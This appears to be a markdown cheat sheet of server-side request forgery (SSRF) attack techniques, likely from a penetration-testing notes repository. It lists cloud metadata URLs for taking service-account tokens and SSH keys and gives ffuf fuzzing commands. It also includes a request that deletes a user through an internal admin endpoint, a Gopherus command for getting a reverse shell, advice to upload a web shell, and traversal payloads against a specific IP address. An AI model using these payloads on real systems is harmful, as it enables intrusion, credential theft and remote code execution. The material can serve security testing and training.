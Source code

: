   - Google Cloud
    ```bash
    http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
    http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys 
    ``` 
- In Blind SSRFs, Scan network/port using:
  - HTTP Status Codes
  - Server Response Times: Short response times may also indicate an unrouted address, because the router might have dropped the request immediately. 
- Attack the Network
  - bypass access controls, leak confidential information, and execute code.
    - If you found admin credentials that give you write privileges, try uploading a shell to the web server.
    - If you found an unsecured admin panel, see if any features allow the execution of scripts.
  - Execute internal API calls through the SSRF endpoint
    - Sometimes we need to double URL-encode sensitive words like `admin` 
    ```bash
    POST /product/stock HTTP/2
    (POST request body)
    stockApi=http://localhost/admin/delete?username=carlos
    ```
  - Disclosing the origin IP behind CDN
- Try to fuzz Subdomains and IPs
  ```bash
  ffuf -w subdomains -u https://sub.domain.tld/page.ext?SSRFPARAM=https://FUZZ.domain.tld/
  ffuf -v -w subdomains -u https://sub.domain.tld/page.ext?SSRFPARAM=http://FUZZ.domain.tld/
  ffuf -w subdomains -u https://sub.domain.tld/page.ext?SSRFPARAM=https://FUZZ
  ffuf -w subdomains -u https://sub.domain.tld/page.ext?SSRFPARAM=http://FUZZ
  ```
- Fuzz to find something (DNS Brute-force with internal Name-Server)
  ```bash
  ffuf -w wordlist -u https://sub.domain.tld/page.ext?SSRFPARAM=https://FUZZ.domain.tld/
  ```
- Try to open forbidden URLs (403)

# Gopherus
- Get Reverse-Shell, when the target support `Gopher` schema.
  ```bash
  gopherus.py --exploit redis  # Run with python2
  ```

# Attacking secondary contexts
- **SSRF:** Client  →  URL  →  Server  →  Curl  →  Server
- **Attacking secondary contexts:** Client  →  a part of URL  →  Server  →  Curl  →  Server
- Find Endpoint (Not static-resource) by add `a` in each part of URL
  - http://77.238.121.150:55559/**a**proxy/internal_website/public_note  →  `404 Not Found`
  - http://77.238.121.150:55559/proxy/**a**internal_website/public_note  →  `404 Not Found`
  - http://77.238.121.150:55559/proxy/internal_website/**a**public_note  →  `200 OK`
- use `/../` or `/..%2f` to go back one directory.
  ```html
  http://77.238.121.150:55559/proxy/internal_website/..%2fprivate_n0t3%2fprivate_note
  ```
